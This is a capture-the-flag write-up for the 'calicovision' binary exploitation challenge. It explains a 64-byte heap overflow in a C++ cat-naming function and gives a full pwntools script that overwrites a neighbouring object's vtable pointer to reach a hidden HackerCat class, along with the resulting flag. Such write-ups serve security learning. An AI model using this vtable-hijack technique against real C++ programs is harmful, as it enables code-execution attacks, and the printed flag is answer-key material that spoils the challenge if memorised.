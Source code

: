 # Calicovision

The problem provides a single binary named `"calicovision"`.

## checksec
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

## file
```
./calicovision: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=0c5c5e040945d78b497b9828ad3fa2b9db950127, for GNU/Linux 3.2.0, with debug_info, not stripped
```

After decompiling the binary using ghidra and locating main, the first thing that you see is this:
```
  ppcVar5 = (char **)(cat_banners.
                      super__Vector_base<std::__cxx11::basic_string<char,_std::char_traits<char>,_std::allocator<char>_>,_std::allocator<std::__cxx11: :basic_string<char,_std::char_traits<char>,_std::allocator<char>_>_>_>
                      ._M_impl._0_8_ +
                     ((ulong)(long)iVar3 %
                     (ulong)(cat_banners.
                             super__Vector_base<std::__cxx11::basic_string<char,_std::char_traits<char>,_std::allocator<char>_>,_std::allocator<std::_ _cxx11::basic_string<char,_std::char_traits<char>,_std::allocator<char>_>_>_>
                             ._M_impl._8_8_ -
                             cat_banners.
                             super__Vector_base<std::__cxx11::basic_string<char,_std::char_traits<char>,_std::allocator<char>_>,_std::allocator<std::_ _cxx11::basic_string<char,_std::char_traits<char>,_std::allocator<char>_>_>_>
                             ._M_impl._0_8_ >> 5)) * 0x20);
```
And this should immeadiately be recognizable as c++ code. Not only is cxx11 present everywhere, but only c++ would ever generate such a horrible monstrosity.

The important part of the code is that it allocates an array of 64 cats. Each cat is a subclass of the parent `Cat` class.

The `Cat` class consists of the following fields:
![Cat class fields](static/cat.png)

The first field is the class vtable, and the second is a 64 byte buffer that holds the name of the cat.

In the function `name_cat` there is some vulnerable code.
```
    __s = pCVar2->m_name_;
    fgets(__s,0x80,(FILE *)stdin);
```
fgets is called on the name buffer of a `Cat` instance, but instead of allowing 64 bytes it allows 128 bytes, resulting in an overflow of 64 bytes.

A few months ago, I watched a [video](https://www.youtube.com/watch?v=HClSfuT2bFA) explaining how c++ implements virtual functions. I recommend watching the video first. Short summary, c++ implements virtual functions using a virtual table (vtable), which is a list of function pointers. The vtables are readonly and cannot be modified to prevent modifying the vtables to call arbitrary functions. The issue with this is that while the vtables themselves are not writable, the vtable pointers contained in the first qword of every class if modifiable.

Searching for the symbol `vtable` in the ghidra symbol tree yields around 20 results. Looking through the vtables there is a class called `HackerCat`. This seems suspicious.

Using the overflow into a `Cat` instance we can overwrite the next `Cat` instance's vtable pointer with the `HackerCat` vtable pointer.

```python
from pwn import *

file = ELF("./calicovision")

delim = b"[Q] Quit\n"
end = b"What would you like to do?"

def clist ():
    io.sendlineafter(delim, b"A")
    d = io.recvuntil(end)[:-len(end)]
    return d.strip().split("\n")

def name (data):
    io.sendlineafter(delim, b"B")
    n = io.recvline().strip()
    print(n)
    io.sendlineafter(b": ", data)
    return int(n[n.index(b"#")+1:])

def pet (index):
    io.sendlineafter(delim, b"C")
    io.sendlineafter(b"? ", str(index).encode())

if args.EXPLOIT:
    io = remote("calicovision.wpi-ctf-2022-codelab.kctf.cloud", 1337)
else:
    io = process("./calicovision")

hacker_cat = 0x5b0068

a = name(b"G" * 71 + b"\x00" + p64(hacker_cat) + b"???")
victim = a+1
print(f"victim cat is {victim}")

pet(victim)

print(io.recvline())
print(io.recvline())
```

Thankfully this works (because I have no idea what else to do) and outputs:
```
b'>>> Naming cat #10'
victim cat is 11
b'Petting cat #11...\n'
b'You approach the hacker cat to pet it, but it yowls at you: WPI{c0rrup73d_c475_cr3473_ch405}\n'
```

# Flag: WPI{c0rrup73d_c475_cr3473_ch405}
